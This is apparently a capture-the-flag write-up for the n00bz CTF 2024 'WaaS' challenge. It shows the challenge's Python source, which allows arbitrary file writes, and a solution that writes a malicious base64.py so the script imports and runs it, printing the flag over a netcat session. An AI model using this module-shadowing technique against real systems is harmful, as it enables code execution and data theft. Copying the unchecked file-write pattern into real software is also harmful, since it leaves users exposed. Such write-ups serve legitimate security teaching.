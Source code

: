 ```yaml
---
title: WaaS
author: bytebrew
layout: writeup
category: n00bz-CTF-2024
chall_description: 
points: 491
solves: 78
tags: web
date: 2024-08-04
comments: false
---
```

Writing as a Service! Author: NoobMaster + NoobHacker
---
# Code Analysis
```py
import subprocess
from base64 import b64decode as d
while True:
	print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
	try:
		inp = int(input("Choice: ").strip())
	except:
		print("Invalid input!")
		exit(0)
	if inp == 1:
		file = input("Enter file name: ").strip()
		assert file.count('.') <= 2 # Why do you need more?
		assert "/proc" not in file # Why do you need to write there?
		assert "/bin" not in file # Why do you need to write there? 
		assert "\n" not in file # Why do you need these?
		assert "chall" not in file # Don't be overwriting my files!
		try: 
			f = open(file,'w')
		except:
			print("Error! Maybe the file does not exist?")

		f.write(input("Data: ").strip())
		f.close()
		print("Data written sucessfully!")
		
	if inp == 2:
		flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
		print(flag.stdout.strip())
```
This python code allows you to write to a file, it seems that it can be in the current directory or a directory specified by the user. We can't write to the challenge file, but we can write to a file that will be imported by the challenge script.
# The Exploit
First, we specify base64.py as the file to write to, because when we relaunch the script base64.py will be imported at executed.
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: base64.py
```
Next, we'll write "print(open('flag.txt').read())" to the file. Since the code doesn't except newlines, this will have to do.
```
Data: print(open('flag.txt').read())
Data written sucessfully!
```
Afterwards, we exit:
```
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: ^C⏎
```
Then we will reconnect (which leads to the script being relaunched):
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_168720a41375}
```
Wow! That's a flag!⏎                                                                                               
